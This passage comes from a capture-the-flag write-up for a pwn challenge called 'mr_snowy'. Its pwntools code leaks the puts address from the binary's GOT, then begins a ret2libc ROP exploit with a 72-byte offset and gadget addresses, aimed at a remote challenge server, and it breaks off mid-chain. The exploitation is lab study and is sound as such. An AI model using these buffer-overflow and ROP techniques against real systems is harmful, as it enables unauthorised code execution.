 ```python
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvuntil(b"\x1B[1;31m"))

print(s.recvline().decode())
print(s.recvline().decode())
leakPuts = u64(s.recvuntil(b"\n").rstrip().ljust(8,b"\x00"))
log.info(f"Leak Puts: {hex(leakPuts)}")
```

![](img/mr_snowy-leakLocal.png)

Got it! Finally get the address. Now we need to leak the server binary, so we will get the same libc with the server. To access the server remotely, we need to add remote to server using host and port.

```python
from pwn import *

host = "138.68.129.154"
port = 31276

offset = 72
pop_rdi = 0x00000000004015c3
ret = 0x000000000040087e

elf = ELF("./mr_snowy")
# s = elf.process()
s = remote(host, port)

puts_plt = elf.symbols["puts"]
main_plt = elf.symbols["main"]

puts_got = elf.got["puts"]
rop = [
```

[Location]: 🎅 Santa's garden..                                                                                  
[Location]: 🎅 Santa's garden..                                                                                  